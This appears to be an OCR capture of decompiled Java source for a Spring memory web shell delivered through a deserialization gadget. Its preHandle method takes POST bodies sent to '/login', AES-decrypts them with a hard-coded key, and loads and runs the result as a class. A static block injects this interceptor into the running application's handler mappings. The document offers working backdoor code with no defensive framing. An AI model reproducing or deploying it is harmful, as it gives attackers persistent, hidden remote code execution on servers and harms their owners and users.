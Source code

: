 ```java
    public void transform(DOM var1, SerializationHandler[] var2) throws TransletException {
    }

    public void transform(DOM var1, DTMAxisIterator var2, SerializationHandler var3) throws TransletException {
    }

    public boolean preHandle(HttpServletRequest var1, HttpServletResponse var2, Object var3) throws Exception {
        if (var1.getMethod().equals("POST")) {
            Field var4 = ((RequestFacade)var1).getClass().getDeclaredField("request");
            var4.setAccessible(true);
            Request var5 = (Request)var4.get(var1);
            Response var6 = var5.getResponse();
            HttpSession var7 = var5.getSession();
            HashMap var8 = new HashMap();
            var8.put("request", var5);
            var8.put("response", var6);
            var8.put("session", var7);
            String var9 = "47bce5c74f589f48";
            var7.putValue("u", var9);
            Cipher var10 = Cipher.getInstance("AES");
            var10.init(2, new SecretKeySpec(var9.getBytes(), "AES"));
            ClassLoader var11 = Thread.currentThread().getContextClassLoader();
            Class var12 = Class.forName("java.lang.ClassLoader");
            Method var13 = var12.getDeclaredMethod("defineClass", String.class, byte[].class, Integer.TYPE, Integer.TYPE);
            var13.setAccessible(true);
            byte[] var14 = var10.doFinal((new BASE64Decoder()).decodeBuffer(var5.getReader().readLine()));
            Class var15 = (Class)var13.invoke(var11, null, var14, 0, var14.length);
            var15.newInstance().equals(var8);
            return false;
        } else {
            return true;
        }
    }

    static {
        try {
            Field var0 = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
            var0.setAccessible(true);
            WebApplicationContext var1 = (WebApplicationContext)((LinkedHashSet)var0.get((Object)null)).iterator().next();
            AbstractHandlerMapping var2 = (AbstractHandlerMapping)var1.getBean("requestMappingHandlerMapping");
            Field var3 = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            var3.setAccessible(true);
            Object var4 = var3.get(var2);
            ((List)var4).add(0, new MappedInterceptor(new String[]{"/login"}, (String[])null, new A12345()));
            var3.set(var2, var4);
            AbstractHandlerMapping var5 = (AbstractHandlerMapping)var1.getBean("resourceHandlerMapping");
            Object var6 = var3.get(var2);
            ((List)var6).add(0, new MappedInterceptor(new String[]{"/login"}, (String[])null, new A12345()));
            var3.set(var5, var6);
        } catch (Exception var8) {
            var8.printStackTrace();
        }

```